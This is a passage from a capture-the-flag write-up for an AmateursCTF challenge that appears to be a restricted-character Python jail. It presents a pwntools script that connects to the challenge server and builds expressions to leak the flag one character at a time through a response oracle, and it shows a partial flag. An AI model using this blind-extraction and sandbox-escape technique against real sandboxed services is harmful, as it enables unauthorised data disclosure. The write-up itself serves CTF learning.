 Yeah it looks like there's a lot of missing characters. I stopped the code before it completed the loop, so that's not even the full flag. We need a way to compare with the missing characters as well, 
especially 'l','i','t', and 'e'. We know the index of 't' and 'e' from the flag format, so we can index into the flag to grab those chars.

Now our code looks like this:

```python
from pwn import *

io = remote('amt.rs', 31672)

true_expr = '[_==_][_!=_]'
true_expr_plus = true_expr + '+'


for n in range(150):
    for c in 'qwryuopasdfghjkzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_':
        payload = (f"[_][_[[{(true_expr+'+')*n}[_==_][_!=_]][_!=_]]=='{c}']")
        io.sendlineafter(b'Give code: ', payload.encode())
        nl = io.recv()
        io.unrecv(nl)
        if b'zzz' in nl:
            print(c,end='')
            break
    else:
        payload = (f"[_][_[[{(true_expr+'+')*n}[_==_][_!=_]][_!=_]]==_[{true_expr_plus*2+true_expr}]]")
        io.sendlineafter(b'Give code: ', payload.encode())
        nl = io.recv()
        io.unrecv(nl)
        if b'zzz' in nl:
            print('t',end='')
            continue

        payload = (f"[_][_[[{(true_expr+'+')*n}[_==_][_!=_]][_!=_]]==_[{true_expr_plus*3+true_expr}]]")
        io.sendlineafter(b'Give code: ', payload.encode())
        nl = io.recv()
        io.unrecv(nl)
        if b'zzz' in nl:
            print('e',end='')
            continue
        
        print(' ', end='')

```

Now let's look at the flag and see if we can determine the index of an 'l' and 'i':
```
mateursCTF{ e_e  te_  tt e_t
```
